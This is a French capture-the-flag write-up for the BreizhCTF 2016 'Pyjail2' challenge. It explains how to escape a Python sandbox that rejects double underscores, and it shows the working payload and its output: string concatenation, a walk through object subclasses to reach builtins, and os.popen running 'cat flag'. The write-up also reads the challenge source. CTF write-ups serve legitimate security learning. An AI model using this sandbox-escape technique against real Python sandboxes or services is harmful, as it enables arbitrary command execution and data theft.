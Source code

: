 # BREIZHCTF 2K16
** Chall:** Pyjail2
**Points:** 200 |
**Taux de réussite:** 14% |


Pour ce deuxième chall de pyjail on reste dans la même idée que le premier : sortir du "jail".Par contre on remarque que le double underscore n'est plus accepté par le programme comme entrée :/ 

Ayant récupérer le code du premier chall on remarque qu'il existe une fonction "_" qui prend en paramètre une chaine de caractères et qui exécute le code reçu (intéressant !).

L'idée est la suivante, nous allons exécuter les mêmes commandes qu'avant (pyjail1) sauf que cette fois ci on les passera à la fonction "_" en tant que chaine de caractères.
Donc, on peut passer des commandes avec un double underscore dedans, il suffit simplement de concaténer deux underscore ("__" => :(  , "_"+"_" => :) ).

```
>_("wclass = ()._"+"_class_"+"_._"+"_base_"+"_._"+"_subclasses_"+"_()[59]()")
>_("print wclass._module._"+"_builtins_"+"_['_"+"_import_"+"_']('os').popen('cat flag')").read()

BZH{fugitif 2 \o/}
```
PS:  j'ai encore oublié de copier le flag :p

De même on exécute une commande pour récupérer le code du chall "cat python_vm2.py".
